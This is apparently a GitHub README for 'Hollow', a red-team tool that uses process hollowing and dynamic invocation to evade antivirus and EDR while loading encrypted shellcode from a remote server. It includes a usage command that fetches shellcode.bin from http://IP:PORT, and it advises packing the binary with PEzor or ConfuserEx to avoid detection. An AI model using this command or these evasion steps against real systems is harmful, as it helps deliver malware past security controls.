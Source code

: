 # Hollow

Trying to evade AV/EDRs using Process hollowing with standalone dynamic invocation avoiding suspicious imports and API Hooks and loading remote AES or xor encrypted shellcode


## Usage

Example:
```Powershell
.\H0ll0w.exe -u http://IP:PORT/shellcode.bin -e AES -k "KEY"
```

To further evade detection, it is recommended to pack the executable with `PEzor` or scramble and obfuscate it with `ConfuserEx`.

<img src="img/1.png" width=30% height=20%>

# Refs
* OSEP
* [Rasta Mouse](https://web.archive.org/web/20210601171512/https://rastamouse.me/blog/process-injection-dinvoke/)
* https://bohops.com/2022/04/02/unmanaged-code-execution-with-net-dynamic-pinvoke/

## Disclaimer
This repository is for educational purposes only and should not be used for malicious purposes. The author is not responsible for any illegal use of the code.
